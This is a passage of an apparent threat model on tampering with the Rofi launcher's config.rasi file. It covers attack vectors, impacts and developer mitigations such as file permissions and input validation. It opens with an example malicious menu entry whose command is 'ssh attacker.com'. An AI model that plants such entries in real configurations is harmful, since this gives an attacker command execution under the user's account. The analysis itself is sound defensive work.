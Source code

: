            command: "ssh attacker.com";
        }
    }
    ```

    While this example requires user interaction to select the "Evil Server" entry, it demonstrates how malicious commands can be embedded within Rofi's interface.

*   **Theme Manipulation with External Scripts:**  While themes primarily control visual aspects, they can sometimes execute external scripts or commands based on user interaction or events. A malicious theme could be crafted to exploit this.

*   **Logging Configuration (Potentially):** While less direct, if Rofi has advanced logging capabilities that can be configured through `config.rasi`, an attacker might be able to configure it to log sensitive information to a world-readable location.

**4.4. Impact Assessment (Detailed):**

The impact of successful configuration file manipulation can be significant:

*   **Arbitrary Command Execution:** This is the most critical impact. Attackers can execute any command with the privileges of the user running Rofi. This can lead to:
    *   **Data Exfiltration:** Stealing sensitive files or information.
    *   **Malware Installation:** Downloading and executing further malicious software.
    *   **System Compromise:** Creating new user accounts, modifying system settings, or gaining root access (if the user has sudo privileges).
    *   **Denial of Service:**  Executing commands that consume system resources or crash the system.
*   **Modification of Rofi's Behavior:** Attackers can alter Rofi's functionality to:
    *   **Disrupt Application Functionality:**  Make Rofi unusable or interfere with the application it's integrated with.
    *   **Phishing Attacks:**  Create fake login prompts or interfaces that mimic legitimate applications to steal credentials.
    *   **Information Gathering:**  Modify Rofi to log user input or actions.
*   **Information Disclosure:** While less direct, attackers could potentially configure Rofi (if it has such capabilities) to log sensitive data or display it in a way that exposes it to unauthorized individuals.

**4.5. Risk Severity (Reiterated and Justified):**

The risk severity remains **High** due to the potential for arbitrary command execution. The ease with which malicious configurations can be injected (if write access is obtained) and the potentially severe consequences make this a significant threat. Even if the user is not running as root, the attacker can still gain access to the user's data and potentially escalate privileges through other means.

**4.6. Mitigation Strategies (Expanded and Categorized):**

**4.6.1. Developer Mitigation Strategies:**

*   **Secure File Permissions:**
    *   **Default Permissions:** Ensure that the directory where Rofi's configuration file is stored (`~/.config/rofi`) and the `config.rasi` file itself have restrictive permissions, typically `700` for the directory and `600` for the file, ensuring only the user has read and write access.
    *   **Installation Scripts:** If your application installs or configures Rofi, ensure that the installation process sets these secure permissions.
*   **Cautious Configuration Modification:**
    *   **Minimize Modifications:** Avoid modifying Rofi's configuration file programmatically unless absolutely necessary.
    *   **Dedicated Configuration:** If your application needs specific Rofi configurations, consider using a separate configuration file that is loaded by your application or through command-line arguments, rather than directly modifying the user's `config.rasi`.
    *   **Input Validation and Sanitization:** If your application allows users to influence Rofi's configuration (e.g., through settings), rigorously validate and sanitize any input to prevent the injection of malicious commands or settings.
*   **Principle of Least Privilege:** Run the application and Rofi with the minimum necessary privileges.
*   **Security Audits:** Regularly audit your application's integration with Rofi to identify potential vulnerabilities related to configuration file handling.